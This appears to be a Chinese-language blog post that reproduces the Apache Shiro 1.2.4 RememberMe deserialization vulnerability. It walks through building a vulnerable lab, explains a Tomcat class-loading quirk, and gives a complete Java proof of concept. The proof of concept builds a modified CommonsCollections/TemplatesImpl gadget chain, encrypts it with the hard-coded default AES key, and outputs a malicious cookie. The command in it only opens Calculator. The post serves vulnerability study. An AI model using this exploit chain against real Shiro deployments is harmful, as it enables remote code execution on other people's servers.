## 简介
[Apache Shiro](https://github.com/apache/shiro)是一个强大且易用的Java安全框架，执行身份验证、授权、密码和会话管理。使用Shiro易于理解的API，开发者可以快速、轻松地获得任何应用程序，从最小的移动应用程序到最大的网络和企业应用程序。
在Shiro <=1.2.4中，反序列化过程中所用到的AES加密的key是硬编码在源码中，当用户勾选RememberMe并登录成功，Shiro会将用户的cookie值序列化，AES加密，接着base64编码后存储在cookie的rememberMe字段中，服务端收到登录请求后，会对rememberMe的cookie值进行base64解码，接着进行AES解密，最后反序列化。由于AES加密是对称式加密（key既能加密数据也能解密数据），所以当攻击者知道了AES key后，就能够构造恶意的rememberMe cookie值从而触发反序列化漏洞。
## 环境搭建
在这里选择下载[源码](https://github.com/apache/shiro/releases/tag/shiro-root-1.2.4)来搭建，下载好之后使用最简单的servlet来搭建靶场，倒入shiro-shiro-root-1.2.4 -> samples -> web -> pom.xml

在配置完成之后，打开打开会报如下错

解决办法

- 下载[JSTL标签库](http://archive.apache.org/dist/jakarta/taglibs/standard/binaries/)，并将其导入IDEA中，如下所示


然后再导入到对应war包里

启动项目如下所示

此时可以看见项目自带了Commons Collections 3.2.1 ，但是在war 包的依赖里没有，这里再将Commons Collections 3.2.1 添加到war包里

自此环境搭建成功
## 攻击流程
漏洞触发主要有4步

- 传入Cookie rememberMe
- BASE64解码
- AES解码
- 反序列化

第1步可以看到shiro的主要特征，就是在Response 的Set-Cookie: `rememberMe=deleteMe;`一般在登录处就可以看到，由于改项目是一个很简单的servlet，没有很复杂的Controller设计，都是通过Cookie来控制的身份认证
第2步是在Request中的Cookie: rememberMe:xxx进行base64解码
第3步则是将第2步解码的数据进行AES解码，AES是对称加密算法，如果能得知密钥那么加解密就完全受控制了
第4步则是将AES解密算法解密后的数据，进行反序列化，也就是readObject()

那么我们在生成payload的时候，要完成对应AES加密，在AES加密的过程中就需要得知对应的密钥，在此可以知道，shiro <= 1.2.4 是使用的硬编码将密钥编写在代码里，那么现在只需要获取密钥，以及对应的加密代码就可以了
```java
// AbstractRememberMeManager.java
// 硬编码的密钥
 private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
```
```java
// 加密算法
public ByteSource encrypt(byte[] plaintext, byte[] key) {
    byte[] ivBytes = null;
    boolean generate = this.isGenerateInitializationVectors(false);
    if (generate) {
        ivBytes = this.generateInitializationVector(false);
        if (ivBytes == null || ivBytes.length == 0) {
            throw new IllegalStateException("Initialization vector generation is enabled - generated vectorcannot be null or empty.");
        }
    }

    return this.encrypt(plaintext, key, ivBytes, generate);
}

private ByteSource encrypt(byte[] plaintext, byte[] key, byte[] iv, boolean prependIv) throws CryptoException {
    int MODE = true;
    byte[] output;
    if (prependIv && iv != null && iv.length > 0) {
        byte[] encrypted = this.crypt(plaintext, key, iv, 1);
        output = new byte[iv.length + encrypted.length];
        System.arraycopy(iv, 0, output, 0, iv.length);
        System.arraycopy(encrypted, 0, output, iv.length, encrypted.length);
    } else {
        output = this.crypt(plaintext, key, iv, 1);
    }

    if (log.isTraceEnabled()) {
        log.trace("Incoming plaintext of size " + (plaintext != null ? plaintext.length : 0) + ".  Ciphertext " + "byte array is size " + (output != null ? output.length : 0));
    }

    return Util.bytes(output);
}
```
所以客户端生成对应的加密代码就可以这样写
```java
byte[] payloads = byte[] seariaz_data
AesCipherService aes = new AesCipherService();
byte[] key = new BASE64Decoder().decodeBuffer("kPH+bIxk5D2deZiIxcaaaA==");
ByteSource ciphertext = aes.encrypt(payloads, key);
System.out.printf(ciphertext.toString());
```
### 问题说明
在复现过程中，由于shiro默认使用的commons collections 版本号是3.2.1 但是在复现的过程中，在tomcat下无法直接利用 commons-collections:3.2.1 的问题
#### 0X1 org.apache.shiro.io.DefaultSerializer.deserialize:40
这里我们直接看反序列化发生的点，第49行使用了 ClassResolvingObjectInputStream 类而非传统的 ObjectInputStream .这里可能是开发人员做的一种防护措施？

跟进readObject方法，他重写了 ObjectInputStream 类的 resolveClass 函数， ObjectInputStream 的 resolveClass 函数用的是 Class.forName 类获取当前描述器所指代的类的Class对象

#### 0x2 org.apache.shiro.io.ClassResolvingObjectInputStream.resolveClass:20
然而重写后的 resolveClass 函数，采用的是 ClassUtils.forName ，我们继续看这个forName的实现。

#### 0x3 org.apache.shiro.util.ClassUtils.forName:59
在这里可以看到与父类的forName方法不一样，再来看看这个 ExceptionIgnoringAccessor 是怎么实现的


这里实际上调用了 ParallelWebAppClassLoader 父类 WebappClassLoaderBase 的 loadClass 函数

该loadClass载入按照上述的顺序（这里不贴代码了，找到 org.apache.catalina.loader.WebappClassLoaderBase.loadClass 即可），先从cache中找已载入的类，如果前3点都没找到，再通过父类 URLClassLoader 的 loadClass 函数载入。但是实际上此时loadClass的参数name值带上了数组的标志，即 /Lorg/apache/commons/collections/Transformer;.class
那么找到原因之后，简单来说，只要使用Transformer链式调用transform()函数，都无法利用成功，那么在commons collections 3.2.1中就不使用Transformer类，那么POC如下
### POC1
这里改改CC6(ysoserial)
```java
package com.test;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import sun.misc.BASE64Decoder;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class TestLazyMap {
    public static void main(String[] args) throws Exception {
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cls = pool.makeClass("Cat");
        String cmdlist = "open /System/Applications/Calculator.app";
        String cmd = "java.lang.Runtime.getRuntime().exec(\""+cmdlist+"\");";
        cls.makeClassInitializer().insertBefore(cmd);
        String randomName = "EvilCat" + System.nanoTime();
        cls.setName(randomName);
        cls.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cls.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates,"123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates,targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates,null);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, templates);
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f3 = null;
        try {
            f3 = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f3 = HashSet.class.getDeclaredField("backingMap");
        }
        f3.setAccessible(true);
        HashMap innimpl = null;
        innimpl = (HashMap) f3.get(map);

        Field f4 = null;
        try {
            f4 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f4 = HashMap.class.getDeclaredField("elementData");
        }
        f4.setAccessible(true);
        Object[] array = new Object[0];
        array = (Object[]) f4.get(innimpl);
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, entry);
        Field f5 = transformer.getClass().getDeclaredField("iMethodName");
        f5.setAccessible(true);
        f5.set(transformer,"newTransformer");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        byte[] payloads = byteArrayOutputStream.toByteArray();
        AesCipherService aes = new AesCipherService();
        byte[] key = new BASE64Decoder().decodeBuffer("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());

    }
}
```
